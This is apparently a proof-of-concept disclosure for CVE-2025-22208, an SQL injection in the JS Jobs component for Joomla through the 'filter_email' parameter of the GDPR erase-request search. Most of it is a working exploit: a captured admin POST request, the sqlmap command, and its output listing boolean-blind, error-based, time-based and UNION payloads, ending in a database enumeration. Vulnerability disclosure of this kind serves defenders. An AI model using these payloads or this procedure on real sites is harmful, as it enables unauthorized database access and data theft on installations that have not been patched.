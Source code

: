 # CVE-2025-22208: SQL injection in JS jobs component version 1.1.5 - 1.4.3 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22208

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'filter_email' parameter in the GDPR Erase Data Request search feature.

## POC
To exploit this vulnerability, go to 'Dashboard >> GDPR >> Erase Data Request >> Search' and capture the search Useremail request. Save that request to a file (req.txt) and run SQLMap through the file to exploit the vulnerable parameter (filter_email).

![Alt text](2.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 77
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=gdpr&view=gdpr&layout=erasedatarequests
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 540e9ab0c71c4445060a757b38444b04=64de8ff28342024d979552d8ff96e3cb; 58f028dd2afd9618c7033dd698dbf770=734e1e9a18b54f3f0a547799648d236e; f1b049cf45956510881f9283cc70983f=df845e612a28854cd04a392e5aac5505; 954f55fc9005096c1cbc635a7c8608fc=294bd118db443aa54b1be9313c54e685
Connection: keep-alive

filter_email=test&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
```

**Exploit:**
```
ubuntu@host:~/sqlmap$ python3 sqlmap.py -r ~/req.txt --batch --dbs -p filter_email
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter_email (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: filter_email=test' AND EXTRACTVALUE(5420,CASE WHEN (5420=5420) THEN 5420 ELSE 0x3A END)-- dphL&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter_email=test' AND GTID_SUBSET(CONCAT(0x7178717071,(SELECT (ELT(4721=4721,1))),0x716b6b7671),4721)-- AoFU&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter_email=test' AND (SELECT 7546 FROM (SELECT(SLEEP(5)))IRqy)-- tkAY&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: filter_email=test' UNION ALL SELECT NULL,CONCAT(0x7178717071,0x7071627259697252544c554b76616c4e794d4a6e4156424f6d7977616b507468704a556f646f4250,0x716b6b7671),NULL,NULL,NULL,NULL,NULL,NULL#&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
